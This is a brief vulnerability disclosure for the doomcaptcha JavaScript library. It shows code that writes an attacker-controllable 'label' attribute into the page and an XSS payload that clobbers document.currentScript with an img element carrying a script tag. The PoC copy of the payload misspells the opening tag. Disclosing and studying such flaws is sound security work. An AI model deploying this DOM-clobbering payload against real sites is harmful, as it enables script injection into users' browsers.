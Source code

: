 ## doomcaptcha

### Meta

+ Library: doomcaptcha
+ Stars: 1K
+ Version: latest
+ Payload: ```<img name=currentScript label="<script>alert(1)</script>"></img>```
+ Impact: XSS
+ CVE: N/A
+ Foundby: TheHulk
+ TheThing: Flow

### Library

URL:
+ `https://github.com/vivirenremoto/doomcaptcha/blob/main/script.js`

### Vulnerable Code Snippet

```javascript
var captcha_label = document.currentScript.getAttribute('label');

var captcha_html = '';
if (captcha_label) {
    captcha_html = '<p>' + captcha_label + '<br>';
}

document.write(captcha_html);
```

## PoC

```
<img name=currentScript label="<scrip>alert(1)</script>"></img>

<form>
<script src=script.js></script>
</form>
```
